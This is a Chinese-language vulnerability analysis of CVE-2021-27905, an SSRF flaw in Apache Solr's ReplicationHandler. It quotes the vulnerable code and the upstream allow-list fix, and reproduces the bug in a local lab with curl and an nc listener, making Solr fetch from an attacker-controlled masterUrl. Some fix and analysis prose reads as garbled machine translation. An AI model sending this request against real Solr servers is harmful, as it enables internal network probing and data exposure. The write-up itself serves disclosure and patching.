




# CVE-2021-27905 CWE-918 Solr SSRF

## 漏洞背景

**Solr ：**一个高性能、可扩展的开源企业级搜索引擎平台，基于 Apache Lucene 构建。它采用倒排索引技术，能够快速高效地对海量数据进行全文检索，支持多种数据格式（如 JSON、XML 等）的导入和索引。Solr 提供强大的查询功能，包括全文检索、过滤查询、排序、分组等，可灵活满足不同的检索需求。还具备分布式搜索和索引复制功能，可实现高可用性和负载均衡，广泛应用于电商搜索、内容管理、数据分析等众多领域，助力企业提升搜索体验和数据处理能力。

## 漏洞原理

该漏洞存在于 Solr 的 ReplicationHandler 中（通常注册在 Solr 核心的 "/replication" 路径下）。ReplicationHandler 使用一个名为 "masterUrl"（或其别名 "leaderUrl"）的参数来指定另一个 Solr 核心上的 ReplicationHandler，用于将索引数据复制到本地核心。在此漏洞存在的情况下，Solr 没有对该 "masterUrl" 或 "leaderUrl" 参数进行足够的检查，从而导致了 SSRF 漏洞。攻击者可以利用该漏洞，伪造请求，通过指定恶意的 "masterUrl" 或 "leaderUrl"，让 Solr 请求内部的或外部的服务器，从而泄露敏感信息或进行进一步攻击。

## 漏洞定位

分析 Solr 8.8.1 源码：

在 solr/core/src/java/org/apache/solr/handler/IndexFetcher.java 文件，第 233 行 IndexFetcher 函数用于初始化与索引复制相关的设置，确保能够正确从其他核心获取索引数据。

其中第 251 行，`leaderUrl` 被用于指定从哪个 Solr 核心（leader）复制索引数据。但是该参数直接通过构造函数传入，并且没有进行适当的验证。攻击者可以通过传递一个恶意的 `leaderUrl`，使 Solr 向内部或外部的恶意服务发起请求，从而触发 SSRF 漏洞。

```java
// IndexFetcher.java 文件，第 233 行 
public IndexFetcher(@SuppressWarnings({"rawtypes"})final NamedList initArgs, final ReplicationHandler handler, final SolrCore sc) {
    solrCore = sc;
    Object fetchFromLeader = initArgs.get(FETCH_FROM_LEADER);
    if (fetchFromLeader != null && fetchFromLeader instanceof Boolean) {
      this.fetchFromLeader = (boolean) fetchFromLeader;
    }
    Object skipCommitOnLeaderVersionZero = ReplicationHandler.getObjectWithBackwardCompatibility(initArgs, SKIP_COMMIT_ON_LEADER_VERSION_ZERO, LEGACY_SKIP_COMMIT_ON_LEADER_VERSION_ZERO);
    if (skipCommitOnLeaderVersionZero != null && skipCommitOnLeaderVersionZero instanceof Boolean) {
      this.skipCommitOnLeaderVersionZero = (boolean) skipCommitOnLeaderVersionZero;
    }
    String leaderUrl = ReplicationHandler.getObjectWithBackwardCompatibility(initArgs, LEADER_URL, LEGACY_LEADER_URL);
    if (leaderUrl == null && !this.fetchFromLeader)
      throw new SolrException(SolrException.ErrorCode.SERVER_ERROR,
              "'leaderUrl' is required for a follower");
    if (leaderUrl != null && leaderUrl.endsWith(ReplicationHandler.PATH)) {
      leaderUrl = leaderUrl.substring(0, leaderUrl.length()-12);
      log.warn("'leaderUrl' must be specified without the {} suffix", ReplicationHandler.PATH);
    }
// ********** 251 行 **********
    this.leaderUrl = leaderUrl;

    this.replicationHandler = handler;
    String compress = (String) initArgs.get(COMPRESSION);
    useInternalCompression = INTERNAL.equals(compress);
    useExternalCompression = EXTERNAL.equals(compress);
    connTimeout = getParameter(initArgs, HttpClientUtil.PROP_CONNECTION_TIMEOUT, 30000, null);
    
    soTimeout = Integer.getInteger("solr.indexfetcher.sotimeout", -1);
    if (soTimeout == -1) {
      soTimeout = getParameter(initArgs, HttpClientUtil.PROP_SO_TIMEOUT, 120000, null);
    }

    if (initArgs.getBooleanArg(TLOG_FILES) != null) {
      downloadTlogFiles = initArgs.getBooleanArg(TLOG_FILES);
    }

    String httpBasicAuthUser = (String) initArgs.get(HttpClientUtil.PROP_BASIC_AUTH_USER);
    String httpBasicAuthPassword = (String) initArgs.get(HttpClientUtil.PROP_BASIC_AUTH_PASS);
    myHttpClient = createHttpClient(solrCore, httpBasicAuthUser, httpBasicAuthPassword, useExternalCompression);
  }
```

## 漏洞修复


升级 Apache Solr 改为 8.8.2 或后来。 如果无法立即升级， 则禁用或限制 `ReplicationHandler`,防止不可信地访问 `fetchindex`,并强制执行来自 Solr 主持人。

那个 `leaderUrl` 通过添加一个 `setLeaderUrl` 封装 `leaderUrl` 设置进程并包含 URL 验证步骤。

```diff
diff --git a/solr/core/src/java/org/apache/solr/handler/IndexFetcher.java b/solr/core/src/java/org/apache/solr/handler/IndexFetcher.java
index 1d89878d4b0..c136927dcca 100644
--- a/solr/core/src/java/org/apache/solr/handler/IndexFetcher.java
+++ b/solr/core/src/java/org/apache/solr/handler/IndexFetcher.java
@@ -24,6 +24,7 @@
 import java.io.OutputStreamWriter;
 import java.io.Writer;
 import java.lang.invoke.MethodHandles;
+import java.net.MalformedURLException;
 import java.nio.ByteBuffer;
 import java.nio.channels.FileChannel;
 import java.nio.charset.StandardCharsets;
@@ -79,6 +80,7 @@
 import org.apache.solr.cloud.ZkController;
 import org.apache.solr.common.SolrException;
 import org.apache.solr.common.SolrException.ErrorCode;
+import org.apache.solr.common.cloud.ClusterState;
 import org.apache.solr.common.cloud.Replica;
 import org.apache.solr.common.params.CommonParams;
 import org.apache.solr.common.params.ModifiableSolrParams;
@@ -94,6 +96,7 @@
 import org.apache.solr.request.LocalSolrQueryRequest;
 import org.apache.solr.request.SolrQueryRequest;
 import org.apache.solr.search.SolrIndexSearcher;
+import org.apache.solr.security.AllowListUrlChecker;
 import org.apache.solr.update.CommitUpdateCommand;
 import org.apache.solr.common.util.SolrNamedThreadFactory;
 import org.apache.solr.util.FileUtils;
@@ -242,7 +245,7 @@ public IndexFetcher(@SuppressWarnings({"rawtypes"})final NamedList initArgs, fin
       leaderUrl = leaderUrl.substring(0, leaderUrl.length()-12);
       log.warn("'leaderUrl' must be specified without the {} suffix", ReplicationHandler.PATH);
     }
-    this.leaderUrl = leaderUrl;
+    setLeaderUrl(leaderUrl);
 
     this.replicationHandler = handler;
     String compress = (String) initArgs.get(COMPRESSION);
@@ -261,7 +264,27 @@ public IndexFetcher(@SuppressWarnings({"rawtypes"})final NamedList initArgs, fin
     String httpBasicAuthPassword = (String) initArgs.get(HttpClientUtil.PROP_BASIC_AUTH_PASS);
     myHttpClient = createHttpClient(solrCore, httpBasicAuthUser, httpBasicAuthPassword, useExternalCompression);
   }
-  
+
+  private void setLeaderUrl(String leaderUrl) {
+    if (leaderUrl != null) {
+      ClusterState clusterState = solrCore.getCoreContainer().getZkController() == null ?
+              null : solrCore.getCoreContainer().getZkController().getClusterState();
+      try {
+        solrCore.getCoreContainer().getAllowListUrlChecker()
+                .checkAllowList(Collections.singletonList(leaderUrl), clusterState);
+      } catch (MalformedURLException e) {
+        throw new SolrException(SolrException.ErrorCode.SERVER_ERROR, "Malformed 'leaderUrl' " + leaderUrl, e);
+      } catch (SolrException e) {
+        throw new SolrException(SolrException.ErrorCode.FORBIDDEN,
+                "The '" + LEADER_URL + "' parameter value '" + leaderUrl
+                        + "' is not allowed: "
+                        + e.getMessage() + ". "
+                        + AllowListUrlChecker.SET_SOLR_DISABLE_URL_ALLOW_LIST_CLUE);
+      }
+    }
+    this.leaderUrl = leaderUrl;
+  }
+
   @SuppressWarnings({"unchecked"})
   protected <T> T getParameter(@SuppressWarnings({"rawtypes"})NamedList initArgs, String configKey, T defaultValue, StringBuilder sb) {
     T toReturn = defaultValue;
@@ -389,7 +412,7 @@ IndexFetchResult fetchLatestIndex(boolean forceReplication, boolean forceCoreRel
           return IndexFetchResult.LEADER_IS_NOT_ACTIVE;
         }
         if (!replica.getCoreUrl().equals(leaderUrl)) {
-          leaderUrl = replica.getCoreUrl();
+          setLeaderUrl(replica.getCoreUrl());
           log.info("Updated leaderUrl to {}", leaderUrl);
           // TODO: Do we need to set forceReplication = true?
         } else {
```

## 影响范围


- Apache Solr 8.8.1 及更早版本

## 环境搭建

启动 Docker 环境，Solr 版本为 8.8.1

```txt
NIST:NVD   Base Score:9.8 CRITICAL   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:apache:solr:8.8.1:*:*:*:*:*:*:*
```



## 漏洞复现

1. 使用 curl 命令创建一个名为 mycoll 的集合

   ```bash
   curl -X GET "http://localhost:8983/solr/admin/collections?action=CREATE\
   &name=mycoll\
   &numShards=1\
   &replicationFactor=1\
   &wt=json"
   ```

   

2. 使用 nc 命令监听 8889 端口

   ```bash
   nc -lvp 8889
   ```

3. 使用 curl 命令，使用 mycoll 集合，利用 Solr ReplicationHandler 的 `fetchindex` 接口，让目标 Solr 节点从攻击者控制的假  master （本机的 8889 端口）去拉取索引

   ```bash
   curl "http://127.0.0.1:8983/solr/mycoll/replication?command=fetchindex&masterUrl=http://172.17.0.1:8889"
   ```

   

4. 可以看到监听的 8889 端口成功返回了信息

   

## PoC分析


那个 `fetchindex` 动作指示 `ReplicationHandler` 联系所提供 `masterUrl`/`leaderUrl`。在本地听众上观察到的连接确认了服务器侧请求的伪造。 那个 PoC 显示网络可达到性;读取有用的数据或将请求连锁到另一个攻击中取决于联系到的服务。

## 参考链接


[[SOLR-15217\] use shardsWhitelist in ReplicationHandler - ASF JIRA](https://issues.apache.org/jira/browse/SOLR-15217)

[SOLR-15217: Rename shardsWhitelist and extract AllowListUrlChecker. · apache/solr@c7abf3f](https://github.com/apache/solr/commit/c7abf3f32ca439b73fbe0ed5a3a6d70ecc411cbb#diff-95ccaf3e3a8ad8c571240fd387effb3e3fdc4a8b36b4940579dc47e83b761876)

[CVE-2021-27905 Apache Solr Server Request Forgery Vulnerability Resurfaces - FreeBuf Cybersecurity Industry Portal](https://www.freebuf.com/vuls/279278.html)
